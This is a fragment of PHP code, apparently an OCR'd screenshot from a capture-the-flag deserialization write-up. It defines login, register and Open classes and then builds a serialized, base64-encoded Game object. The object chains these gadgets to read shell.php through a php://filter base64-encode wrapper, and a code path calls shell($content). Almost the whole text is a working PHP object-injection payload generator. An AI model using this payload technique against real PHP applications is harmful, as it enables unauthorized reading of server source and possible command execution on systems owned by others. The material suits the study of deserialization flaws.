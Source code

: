 ```php
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}

$a = new Game();
$a->username = 'admin';
$a->password = "admin";
$a->register = "admin";

$a->choice = new login();
$a->file = new Open();
$a->filename = 'php://filter/convert.base64-encode/resource=shell';
$a->content = '';

var_dump(serialize($a));
var_dump(base64_encode(serialize($a)));
// 目录下必须有 shell.php waf.txt
```
